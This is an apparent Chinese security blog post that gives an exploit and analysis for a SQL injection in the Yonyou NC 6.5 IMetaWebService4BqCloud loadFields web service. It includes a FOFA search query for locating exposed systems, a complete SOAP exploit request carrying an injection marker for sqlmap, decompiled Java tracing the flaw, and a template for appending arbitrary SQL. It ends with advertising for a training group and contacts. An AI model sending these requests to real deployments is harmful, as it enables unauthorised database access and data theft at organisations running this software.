 #  漏洞利用 | 用友NC IMetaWebService4BqCloud数据源SQL注入  
原创 chobits02  C4安全   2025-07-12 13:36  
  
前言  
  
这次分析的漏洞是用友NC的一个比较隐蔽的SQL注入，网上很少有利用信息公开过  
  
原来我是想投稿在奇安信社区的来着，不过漏洞分析总感觉缺乏关键证据，于是就放在公众号上了，希望有能力的师傅们能就这代码深挖一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSn3Viac9hzfSk85o3uJ7uzC7Gmom28O1jFJ4fwjVPdicIrLGQG93XnBjHhg7yq0TXflaFricam17Rwg/640?wx_fmt=png&from=appmsg "")  
  
那么废话少说，一上来就先说下漏洞的利用方法  
  
漏洞影响的产品是用友NC 65版本，FOFA语法是  
```
app="用友-UFIDA-NC"
```  
  
这里请求目标的http://xxxx/uapws/service/uap.pubitf.ae.meta.IMetaWebService4BqCloud?WSDL  
  
可以看到webservice的调用方法，用wsdl解析工具解析下构造请求即可  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSn3Viac9hzfSk85o3uJ7uzCibV3QhRMYVhWyxoJjraYw2HiaCJESCqEoSicWMG1GvXwoB3JQpI9mtFeQ/640?wx_fmt=png&from=appmsg "")  
  
使用SQLMAP对数据包进行验证，验证存在注入  
  
  
抓包可以看到，漏洞的利用数据包如下  
```
POST /uapws/service/uap.pubitf.ae.meta.IMetaWebService4BqCloud HTTP/1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=09133CFE3A7B0CE8341AB1A7DEDFCCDE.server
Connection: keep-alive
SOAPAction: urn:loadFields
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 350
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:imet="http://meta.ae.pubitf.uap/IMetaWebService4BqCloud">
   <soapenv:Header/>
   <soapenv:Body>
      <imet:loadFields>
         <!--type: string-->
         <imet:string>SmartModel^1';*</imet:string>
      </imet:loadFields>
   </soapenv:Body>
</soapenv:Envelope>
```  
  
  
然后就到分析这一步了，漏洞是怎么来的呢，有请名侦探柯南  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSn3Viac9hzfSk85o3uJ7uzCfAtsmniak5mDVrOBUVNm1d9PUvcHJzsGn1AGm2lKlGVYd7cLow4wJcw/640?wx_fmt=png&from=appmsg "")  
  
漏洞  
位于IMetaWebService4BqCloud  
接口处，方法的完整路径为uap.pubitf.ae.meta.IMetaWebService4BqCloud  
  
  
这里只关注下面的loadFields方法，到MetaWebService4BqCloud  
里面看一下具体用法，此处传入了字符串  
  
  
可以看到loadFields调用了MetaWebService下面的loadFields方法，继续追踪下去  
  
  
代码如下  
```
public MetaField[] loadFields(String metaEntityId) throws Exception {  
String metaType = MetaUtilities.getMetaTypeFromMetaId(metaEntityId);  
if (StringUtils.isEmpty(metaType))  
returnnull;   
if (!"SmartModel".equalsIgnoreCase(metaType) && !"SmartMeta".equalsIgnoreCase(metaType) && !"NCDB".equalsIgnoreCase(metaType))  
returnnull;   
    IMetaQueryService mqs = (IMetaQueryService)NCLocator.getInstance().lookup(IMetaQueryService.class);  
    IMetaElement e = mqs.getMetaElementByID(metaEntityId);  
if (!(e instanceof IMetaEntity))  
returnnull;   
    IMetaEntity entity = (IMetaEntity)e;  
    IMetaAttribute[] attributes = entity.getMetaAttributes();  
if (attributes == null || attributes.length == 0)  
returnnull;   
List<MetaField> fieldList = new ArrayList<>();  
for (IMetaAttribute a : attributes) {  
if (a != null)  
if (isFieldType(a.getMetaType()))  
          fieldList.add(transToMetaField(a));    
    }   
return fieldList.<MetaField>toArray(new MetaField[fieldList.size()]);  
  }

```  
  
可以看到首先方法下面调用了getMetaTypeFromMetaId  
方法  
```
String metaType = MetaUtilities.getMetaTypeFromMetaId(metaEntityId);

```  
  
追踪一下这个方法是截取字符串中^之前的字符进行返回的  
  
  
  
然后接下来方法中有个判断，说明传入的字符串的^之前字符必须是SmartModel  
或者SmartMeta  
或者NCDB  
，不然返回null  
  
  
然后来到方法getMetaElementByID  
，传入的是完整字符串  
  
  
追踪方法  
  
  
可以看到下面又调用了MetaUtilities的两个方法  
  
  
这两个方法是分别截取字符串^之前的字符和之后的字符的，所以没啥特别的  
  
  
  
然后来到方法getMetaElementByID  
下面的最后一个方法getMetaByBussinessID  
，将上面截断的^前后的字符传入此方法中  
```
public IMetaElement getMetaByBussinessID(String metaType, String businessId) throws MetaException {  
if (StringUtils.isEmpty(metaType))  
returnnull;   
    IMetaDriver[] drivers = MetaDriverManager.getInstance().getDriversByMetaType(metaType);  
if (drivers == null || drivers.length == 0)  
returnnull;   
    IMetaElement result = null;  
for (IMetaDriver driver : drivers) {  
      IMetaElement me = driver.getMetaElementByBusinessId(metaType, businessId);  
if (me != null) {  
        result = me;  
break;  
      }   
    }   
return result;  
  }

```  
  
直接来到最后的方法getMetaElementByBusinessId  
中，此次传入的metaType是字符串^之前的字符，而businessId是^之后的字符，这里再强调下  
  
然后到方法里面又给拼起来了（多此一举），字符串又变成整体传入了getMetaElementByMetaId  
方法中  
  
  
再追踪来到对应方法中  
  
  
这里调用了getInstance  
和getDataSourceByIndentifier  
方法，分别来看下  
  
getInstance  
方法调用了init  
方法，这里是设置元数据名称、类型、ID的  
  
  
初始化时候^之前的作为dsName，^之后的作为是businessId  
  
  
一般businessId不会是"$datesource$"，也没有点号分割，所以会进入第二个if语句当中，把businessId当做表名tableName来查询，造成SQL注入  
  
那再看getDataSourceByIndentifier  
方法看下，就是取出上一步的数据作为数据源连接  
  
![87bc2570-d6cf-4612-acd2-8749e50dea38.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSn3Viac9hzfSk85o3uJ7uzCKHaNyw6fNs66TtL21twaibtoEPcRD9QlibRSOs6h1Bl42AjFs8ibqibvmA/640?wx_fmt=png&from=appmsg "")  
  
到此分析结束，所以传入这个方法的字符串可以是以SmartModel^开头，后面再拼接SQL语句，类似会得到这样的解析  
```
dsName = "SmartModel"
tableName = "'; 恶意SQL语句--"

```  
  
调用 getColumns(...)  
 时，JDBC 驱动可能构造出类似 SQL  
```
SELECT * FROM ALL_CONS_COLUMNS WHERE TABLE_NAME = ''; 恶意SQL语句--'
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSn3Viac9hzfSk85o3uJ7uzCY3JUjyF2ShwVicyXdcGbSfH0PDyLuhaJzic10Bvg4KQoAiaGEXWESQcvg/640?wx_fmt=png&from=appmsg "")  
  
结语  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈日常更新漏洞情报，可私聊领取优惠券，加入链接：https://wiki.freebuf.com/societyDetail?society_id=184**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
  
  
  
